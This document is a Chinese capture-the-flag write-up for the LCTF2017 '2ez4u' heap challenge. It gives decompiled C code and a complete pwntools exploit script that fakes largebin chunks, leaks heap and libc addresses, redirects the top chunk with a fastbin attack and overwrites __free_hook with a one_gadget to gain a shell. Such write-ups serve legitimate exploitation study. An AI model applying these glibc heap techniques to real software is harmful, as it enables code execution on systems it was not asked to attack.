

# LCTF2017 2ez4u
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>算是我写过的最长的pwn题脚本，学了快一个星期，也收获颇丰，先放上我学习的源地址，同时也推荐这个大佬的，[Sakuraのblog](https://eternalsakura13.com/2018/03/21/lctf2/)，写的非常详细，对前置知识的讲解也很周到，感谢感谢。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为Sakura已经把large bin attach的前置知识讲的很清楚了，所以我这里只会补充一下其他没提到的有可能想不到的地方，先放上程序的IDA代码：</font></br>
**主函数**
```C
void the_main()
{
  char choose[8]; // [rsp+10h] [rbp+0h]

  while ( 1 )
  {
    menu();
    get_input();
    switch ( (unsigned int)choose )
    {
      case 1u:
        add();
        break;
      case 2u:
        del();
        break;
      case 3u:
        edit();
        break;
      case 4u:
        show();
        break;
      case 5u:
        exit(0);
        return;
      default:
        puts("invalid choice !");
        break;
    }
  }
}
```
**添加堆块**
```C
unsigned __int64 add()
{
  signed int i; // [rsp+4h] [rbp-2Ch]
  int color; // [rsp+8h] [rbp-28h]
  unsigned int value; // [rsp+Ch] [rbp-24h]
  unsigned int num; // [rsp+10h] [rbp-20h]
  unsigned int length; // [rsp+14h] [rbp-1Ch]
  _QWORD *chunk; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  if ( alloc_times == 16 )
  {
    puts("sorry XD");
  }
  else
  {
    printf("color?(0:red, 1:green):");
    color = get_input();
    if ( color != 1 && color )
    {
      puts("invalid");
    }
    else
    {
      printf("value?(0-999):");
      value = get_input();
      if ( value <= 999 )
      {
        printf("num?(0-16):");
        num = get_input();
        if ( num <= 0x10 )
        {
          printf("description length?(1-1024):");
          length = get_input();
          if ( length <= 0x400 && length )
          {
            chunk = malloc(length + 0x18LL);
            printf("description of the apple:");
            get_input_0((__int64)(chunk + 3), length, 0xA);
            *(_DWORD *)chunk = color;
            chunk[1] = value;
            *((_DWORD *)chunk + 1) = num;
            for ( i = 0; i <= 15; ++i )
            {
              if ( !LODWORD(link[2 * i]) )
              {
                *((_DWORD *)chunk + 4) = i;
                link[2 * i + 1] = chunk;
                HIDWORD(link[2 * i]) = length;
                LODWORD(link[2 * i]) = 1;
                ++alloc_times;
                printf("apple index: %d\n", (unsigned int)i);
                return __readfsqword(0x28u) ^ v7;
              }
            }
          }
          else
          {
            puts("???");
          }
        }
        else
        {
          puts("invalid");
        }
      }
      else
      {
        puts("invalid");
      }
    }
  }
  return __readfsqword(0x28u) ^ v7;
}
```
**删除堆块**
```C
unsigned __int64 del()
{
  unsigned int index; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("which?(0-15):");
  index = get_input();
  if ( index <= 0xF && LODWORD(link[2 * index]) )
  {
    LODWORD(link[2 * index]) = 0;
    free(link[2 * index + 1]);
    --alloc_times;
  }
  else
  {
    puts("???");
  }
  return __readfsqword(0x28u) ^ v2;
}
```
**编辑堆块**
```C
unsigned __int64 edit()
{
  unsigned int index; // [rsp+8h] [rbp-18h]
  int color; // [rsp+Ch] [rbp-14h]
  unsigned int value; // [rsp+10h] [rbp-10h]
  unsigned int num; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("which?(0-15):");
  index = get_input();
  if ( index <= 0xF && link[2 * index + 1] )
  {
    printf("color?(0:red, 1:green):");
    color = get_input();
    if ( color != 1 && color )
      puts("invalid");
    else
      *link[2 * index + 1] = color;
    printf("value?(0-999):");
    value = get_input();
    if ( value <= 0x3E7 )
      *((_QWORD *)link[2 * index + 1] + 1) = value;
    else
      puts("invalid");
    printf("num?(0-16):");
    num = get_input();
    if ( num <= 0x10 )
      link[2 * index + 1][1] = num;
    else
      puts("invalid");
    printf("new description of the apple:");
    get_input_0((__int64)(link[2 * index + 1] + 6), HIDWORD(link[2 * index]), 10);
  }
  else
  {
    puts("invalid");
  }
  return __readfsqword(0x28u) ^ v5;
}
```
**输出堆块内容**
```C
unsigned __int64 show()
{
  unsigned int index; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("which?(0-15):");
  index = get_input();
  if ( index <= 0xF && link[2 * index + 1] )
  {
    if ( *link[2 * index + 1] )
      puts("color: green");
    else
      puts("color: red");
    printf("num: %d\n", (unsigned int)link[2 * index + 1][1]);
    printf("value: %d\n", (unsigned int)(char)*((_QWORD *)link[2 * index + 1] + 1));
    printf("description:");
    puts((const char *)link[2 * index + 1] + 0x18);
  }
  else
  {
    puts("???");
  }
  return __readfsqword(0x28u) ^ v2;
}
```
**get_input**
```C
//不存在off-by-one溢出
unsigned __int64 __fastcall get_input_0(__int64 a1, int a2, char a3)
{
  char v4; // [rsp+0h] [rbp-20h]
  char buf; // [rsp+13h] [rbp-Dh]
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v7; // [rsp+18h] [rbp-8h]

  v4 = a3;
  v7 = __readfsqword(0x28u);
  for ( i = 0; i < a2; ++i )
  {
    read(0, &buf, 1uLL);
    if ( buf == v4 )
    {
      *(_BYTE *)(i + a1) = 0;
      return __readfsqword(0x28u) ^ v7;
    }
    *(_BYTE *)(a1 + i) = buf;
  }
  if ( i == a2 )
    *(_BYTE *)(a2 - 1LL + a1) = 0;
  else
    *(_BYTE *)(i + a1) = 0;
  return __readfsqword(0x28u) ^ v7;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序流程分析完了，color，num，value什么的都没什么实质用途，唯一有可能的就是会把largebin的bk和fd和fd_nextside给替代掉，但edit的时候如果输入的color，num，value的范围在**判断的范围之外则实际上不会有改变**，则可以绕过覆写。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为没有溢出，再加上想要leak libc的基地址基本都需要chunk overlapping，所以这里就要用**伪造largebin**的方式进行overlap，所以我们一步一步做，首先leak出堆地址:</font></br>

```python

from pwn import *

DEBUG=0

if DEBUG==1:
    context.log_level='debug'

p=process('./2ez4u')
libc=ELF('./libc.so')

one_gadget=0x4526a
top_addr=0x3c4b50
chunk_base=0
libc_base=0

sd=lambda c : p.send(c)
sl=lambda c : p.sendline(c)
rv=lambda c : p.recvuntil(c)
sa=lambda a,c : p.sendafter(a,c)
sla=lambda a,c : p.sendlineafter(a,c)


def add(size,content=''):
    sla('choice: ','1')
    sla('1:green):','0')
    sla('?(0-999):','0')
    sla('(0-16):','0')
    sla('(1-1024):',str(size))
    sla('apple:',content)

def dele(index):
    sla('choice: ','2')
    sla('(0-15):',str(index))

def edit(index,content=''):
    sla('choice: ','3')
    sla('(0-15):',str(index))
    sla('green):','2')
    sla('(0-999):','1000')
    sla('(0-16):','17')
    sla('apple:',content)

def show(index):
    sla('choice: ','4')
    sla('(0-15):',str(index))

# alloc servel fastbin
# then we will fake the large bin here
# so we will get chunks overlapped
add(0x60)   # 0
add(0x60)   # 1
add(0x60)   # 2
add(0x60)   # 3
add(0x60)   # 4
add(0x60)   # 5
add(0x60)   # 6
add(0x60)   # 7
add(0x60)   # 8

add(0x3e0)  # 9
add(0x30)   # 10
add(0x3f0)  # 11
add(0x30)   # 12
add(0x3e0)  # 13
add(0x30)   # 14

# fill the bk_nextside
# and alloc a larger chunk to
# add there chunks to largebin list
dele(9)
dele(11)
dele(0)

add(0x400)  # 0
#gdb.attach(p)
show(9)

# Hence we can leak the chunk address
rv("description:")
chunk_base=u64(p.recv(6)+2*'\x00')-0x8d0
log.info("chunk base is "+hex(chunk_base))


```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为输出是从chunk+0x18的位置开始输出的，所以正好可以输出large bin的bk_nextsize,因此可以计算出堆基址。然后我们开始leak libc的基址，这里我们构造如下堆结构：</font></br>
</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为largebin list是从大到小排列的，所以fd_nextside指向小一点的堆块，bk_nextiside指向最右边的最小的堆块。所以当新malloc一个large bin大小的堆块的时候，分配器会从largebin list中最大的堆块的bk_nextsize指向的最小堆块开始遍历试图找一个合适大小的堆块分配，因此我们从索引11的堆块的bk_nextside开始伪造，先把bk_nextsize修改为我们伪造的堆块的地址，然后在相关地址上开始伪造堆块chunk1，注意unlink的检查，再伪造一个chunk2绕过chunk1的fd_nextsize与bk_nextsize的检查，注意bk与fd也有一个检查:`p->bk->fd==p,p->fd->bk==p`。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>最终leak的代码如下：</font></br>

```python

# the faked chunk's address
# fake a main chunk: chunk1
# and fake a chunk2 to bypass the
# bk_nextsize and fd_nextsize check
# do not forget the fd and bk check
target=chunk_base+0xb0
chunk1_addr=chunk_base+0x130
chunk2_addr=chunk_base+0x1b0
victim_addr=chunk_base+0x8d0

edit(11,p64(chunk1_addr))

chunk1=p64(0)
chunk1+=p64(0)
chunk1+=p64(0x401)
chunk1+=p64(target-0x18)
chunk1+=p64(target-0x10)
chunk1+=p64(victim_addr)
chunk1+=p64(chunk2_addr)
edit(2,chunk1)

chunk2=p64(0)
chunk2+=p64(0)
chunk2+=p64(0x411)
chunk2+=p64(0)
chunk2+=p64(0)
chunk2+=p64(chunk1_addr)
edit(3,chunk2)

edit(1,p64(0)+p64(chunk1_addr))
edit(9,p64(victim_addr)+p64(0)*16+p64(0x400)+p64(0x401))
# do not ignore the size align
# ==============================

dele(5)
dele(3)
add(0x3e0)  # 3 and we get a largebin overlapped

# now fill the chunk to leak the libc address
# add (or unlink) a chunk to flush the fd to main_arena
edit(3,'a'*0x30+'b'*8)
add(0x60)   # 5
#gdb.attach(p)

# congratulations :)
show(3)
rv("bbbbbbbb")
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4be8
log.info("chunk base is "+hex(libc_base))


```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>成功leak出来了之后我们也得到了overlapping的chunk，这时候我们就可以随意修改堆块内部的重叠堆块的内容了，这里我们使用**fastbin attack修改top chunk指针，使之指向\_\_free_hook的上面内容不为零的地方（使top chunk的size足够大）**，然后多分配几个大堆块最终\__free_hook被堆块覆盖，填充堆块内容就可以修改__free_hook。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么怎么把fastbin分配到top指针上去呢？在main_arena的区域，有一个存储fastbin链表的数组fastY[]，如果我们先free一个fastbin，然后修改他的fd指针为0x60,malloc一次之前的fastbin，这个fastbin的fd指针就会被放入fastbin list中（但我们不会傻到再malloc一次这样就报错了），也就是修改了fastY数组相应位置的链表数据，这时候main_arena中就出现了0x60，然后我们就可以分配一个0x60大小的fastbin上去，绕过size检查，top指针也被包裹在了这个fastbin中，这样我们就可以修改top指针到任意地址了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>利用largebin attack造成的chunk overlapping我们可以轻易的做到这一点：</font></br>

```python
# now let's work on the fastbin attack
dele(6)
dele(4)

# here the 'fill' is used to avoid destorying the
# previous data
fill=p64(0)*6
fill+=p64(0x81)
fill+=p64(libc_base+0x3c4be8)
fill+=p64(chunk_base+0x280)
fill+=p64(0)*3+p64(0x411)
fill+=p64(0)*2+p64(chunk_base+0x98)
fill+=p64(0)*5

# then we fake the fd pointer
# and malloc a chunk to change the fastY[]
payload=fill
payload+=p64(0x80)*2
payload+=p64(0x60)

edit(3,payload)

add(0x60) # 4
#gdb.attach(p)

# get a chunk whose size is 0x60
add(0x40) # 6
dele(6)

# overwrite the fd pointer
# free it, and alloc twice
# we get a chunk beyond the top chunk's pointer in main_arena
payload=p64(0)*6
payload+=p64(0x61)
payload+=p64(libc_base+top_addr)

edit(3,payload)

add(0x40)
add(0x40,p64(libc_base+0x3c5c50)) # now you have overwriten the top chunk pointer!

# in order to avoid the malloc-corruption
# we fix the broken large bin's bk_nextsize
edit(11,p64(chunk_base+0x480))

# clean servel positions
# to put in the new chunks
dele(8)
dele(4)
dele(5)
dele(1)

add(0x300)
add(0x300)
add(0x300)
add(0x300)
add(0x300)
add(0x300) # __free_hook is overlapped here!

# offset of the __free_hook
# edit it, and pwned!
offset=0x7f593a6087a8-0x7f593a6085d8
edit(15,'\x00'*offset+p64(libc_base+one_gadget))
dele(15)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>学完了，简单吧 :)</font></br>